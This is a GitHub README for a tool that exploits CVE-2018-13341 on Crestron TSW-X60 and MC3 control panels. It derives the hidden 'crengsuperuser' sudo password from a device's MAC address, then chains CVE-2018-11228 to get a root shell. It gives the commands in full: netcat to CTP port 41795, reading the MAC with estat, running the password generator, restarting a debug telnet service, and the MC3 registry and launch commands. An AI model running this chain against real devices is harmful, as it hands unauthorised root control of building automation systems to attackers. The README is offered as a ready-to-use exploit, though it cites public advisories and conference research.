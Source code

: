 crestron_getsudopwd
===================

Based on [Ricky Lawshae](https://github.com/headlesszeke) discovery on Crestron TSW-X60 and MC3 devices, this tool aims to exploit the [CVE-2018-13341](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-13341). Using the MAC address of the targeted device, you can recover the password of the *"crengsuperuser"* hidden account which has elevated privileges and allow you to run **SUDO** commands.

## Description

On Crestron **TSW-X60** < 2.001.0037.001 and **MC3** < 1.502.0047.00, the passwords for special sudo accounts may be calculated using information accessible to those with regular user privileges. Attackers could decipher these passwords, which may allow them to execute hidden API calls and escape the CTP console sandbox environment with elevated privileges.

The Crestron Toolbox Protocol (CTP) can be connected to by accessing port **41795** on the TSW-XX60 device. Then, you can use thh `estat` command to get the MAC address of the device:

```bash
$ nc -C w.x.y.z 41795
TSW-760 Control Console

TSW-760> estat

The EST command has been made obsolete. Please use IPCONFIG instead.
Ethernet Adapter [XYZ]:
	Link Status ....... : OK
	DHCP .............. : ON
	MAC Address ....... : 00.XX.XX.XX.XX.XX
	IP Address ........ : [removed]
	Subnet Mask ....... : [removed]
	IPV6 Address ...... : [removed]
	Default Gateway ... : [removed]


	DNS Servers ........ : [removed]    | DHCP      |
	                       [removed]    | DHCP      |
```

## Requirements

This tool requires the [cryptography](https://cryptography.io/en/latest/) module.

```bash
$ pip3 install cryptography
```
**OR**
```bash
$ pip3 install -r requirements.txt
```

## Getting Started

```bash
usage: crestron_getsudopwd.py [-h] [-m MAC]

Tool to generate Crestron hidden accounts passwords

optional arguments:
  -h, --help         show this help message and exit
  -m MAC, --mac MAC  Target MAC address (w/o colons or dots)


# Example
$ python3 crestron_getsudopwd.py -m aabbccddeeff
[*] Device MAC address: AABBCCDDEEFF
[*] Password for 'crengsuperuser': RgXkA6Q415puxN0t
```

## Exploiting the CVE-2018-11228

The [CVE-2018-11228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11228) allows unauthenticated RCE via Bash Shell Service in Crestron Terminal Protocol (*CTP*). After getting the password of the *"crengsuperuser"* hidden account you can get a **root** access on the underlying linux box.

```bash
$ nc -C w.x.y.z 41795

TSW-760 Control Console

TSW-760> TELNETPORT OFF
Telnet Port: Off
TSW-760> SUDO RESTARTSERVICE telnetd_debug
Username: crengsuperuser
Password: **************

Service telnetd_debug restarted

TSW-760>
```

Then, in a new shell, you can get **root** access on the box.

```bash
$ telnet w.x.y.z

bash-3.2# whoami
root
```

> **Note :** This example is for **TSW** devices. The process is slightly different for **MC3** devices. You have to use the following commands to enable the shell: `SUDO -SN:crengsuperuser -SP:password REGEDIT \\comm\\telnetd addval UseAuthentication DWORD 0` then, `SUDO -SN:crengsuperuser -SP:password LAUNCH \\windows\\services.exe /params start tel0:`

## Resources

Here are some interesting resources related to this vulnerability :

- [Security Advisory Regarding Crestron TSW-XX60 Touch Panel Devices](https://resources.securitycompass.com/blog/security-advisory-regarding-crestron-tsw-xx60-touch-panel-devices-2)
- [Ricky "HeadlessZeke" Lawshae - Github](https://github.com/headlesszeke/defcon26-materials)
- [Hacking Crestron IoT Automation Systems - DEFCON 26](https://media.defcon.org/DEF%20CON%2026/DEF%20CON%2026%20presentations/DEFCON-26-Lawshae-Who-Controls-the-Controllers-Hacking-Crestron.pdf)
